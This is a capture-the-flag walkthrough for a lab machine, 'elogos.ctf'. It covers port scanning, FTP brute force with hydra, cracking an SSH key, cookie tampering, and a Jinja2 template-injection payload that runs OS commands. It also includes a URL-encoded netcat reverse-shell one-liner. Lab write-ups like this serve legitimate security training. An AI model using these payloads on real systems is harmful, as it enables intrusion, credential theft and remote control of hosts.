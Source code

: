 ### **PORT SCANNING**
```bash
nmap -sT -T5 --min-rate=10000 -p- 192.168.86.129
```
![[Pasted image 20231011153211.png]]

### **PATH 1 - FTP**
Go to http://elogos.ctf/about-us and take note of the listed username (email)
![[Pasted image 20231011153524.png]]

After that launch a brute force with hydra on ftp to gain access
```
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ftp://elogos.ctf
```

ls -la and take the private ssh key. Crack it.
```
ssh2john id_rsa > hash
```
![[Pasted image 20231011153933.png]]![[Pasted image 20231011154601.png]]

Log in as j.brock via ssh
### **PATH 2 - WEB**
*Web to www-data*
http://elogos.ctf/login
Use inspect to retrieve the cookie and decode it.
![[Pasted image 20231011154838.png]]
Change logged in to true and save it in the browser
![[Pasted image 20231011154905.png]]
Use the "user=" parameter to inject the ssti payload and achieve a RCE
```python
{{request.application.__globals__.__builtins__.__import__('os').popen("id").read()}}
```
Usa la reverse shell url encodata
```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.86.130%204444%20%3E%2Ftmp%2Ff
```
![[Pasted image 20231011155050.png]]
Now use the rce to obtain a reverse shell